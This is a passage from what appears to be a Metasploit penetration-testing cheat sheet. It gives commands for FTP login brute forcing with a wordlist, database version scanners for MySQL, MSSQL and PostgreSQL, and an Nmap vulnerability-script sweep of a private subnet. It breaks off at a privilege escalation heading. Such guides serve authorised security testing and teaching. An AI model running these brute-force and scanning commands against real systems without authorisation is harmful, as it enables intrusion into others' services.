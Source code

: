 ### FTP brute force

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.1.100
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
run
```

## Database Service Vulnerabilities

### MySQL scanner

```bash
use auxiliary/scanner/mysql/mysql_version
set RHOSTS 192.168.1.100
run
```

### MSSQL scanner

```bash
use auxiliary/scanner/mssql/mssql_ping
set RHOSTS 192.168.1.0/24
run
```

### PostgreSQL scanner

```bash
use auxiliary/scanner/postgres/postgres_version
set RHOSTS 192.168.1.100
run
```

## Pro Tip: Comprehensive Network Scanning

Combine Metasploit scanning with Nmap for comprehensive network analysis:

### From within Metasploit

```bash
db_nmap -sV --script vuln 192.168.1.0/24
```

---

# Privilege Escalation Techniques

## Windows Privilege Escalation

### Automated local exploit suggester
